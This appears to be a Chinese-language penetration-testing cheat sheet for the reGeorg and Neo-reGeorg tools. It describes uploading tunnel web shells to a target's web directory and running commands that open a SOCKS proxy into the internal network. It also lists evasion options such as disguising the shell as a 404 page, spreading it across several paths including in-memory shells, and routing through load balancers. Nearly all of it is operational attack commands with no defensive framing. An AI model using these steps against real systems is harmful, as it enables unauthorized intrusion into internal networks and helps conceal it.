 
### reGeorg

项目地址:   https://github.com/sensepost/reGeorg

- 示例

    - 往目标机上web目录上传

        ```
        tunnel.aspx
        tunnel.nosocket.php
        tunnel.jsp
        ```

    - 在本机上执行

        `python reGeorgSocksProxy.py -p 1081 -u http://upload.sensepost.net:8080/tunnel/tunnel.jsp`

    - 然后 proxychain 或者 proxifler(全局代理) 指定本机 1081 端口即可


### Neo-reGeorg

项目地址:   https://github.com/L-codes/Neo-reGeorg

- 示例

    - 生成tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器

        `python3 neoreg.py generate -k password`

    -  使用 neoreg.py 连接 WEB 服务器,在本地建立 socks5 代理

        `python3 neoreg.py -k password -u http://xx/tunnel.php`

    - 高阶用法

        - 支持生成的服务端,默认直接请求响应指定的页面内容(如伪装的404页面)

            ```
            python neoreg.py generate -k <you_password> --file 404.html --httpcode 404
            python neoreg.py -k <you_password> -u <server_url> --skip
            ```

        - 如服务端 WEB,需要设置代理才能访问

            `python neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080`

        - 如需 Authorization 认证和定制的 Header 或 Cookie

            `python neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"`

        - 需要分散请求,可上传到多个路径上,如内存马

            `python neoreg.py -k <you_password> -u <url_1> -u <url_2> -u <url_3> ...`

        - 开启内网转发,应对负载均衡

            `python neoreg.py -k <you_password> -u <url> -r <redirect_url>`
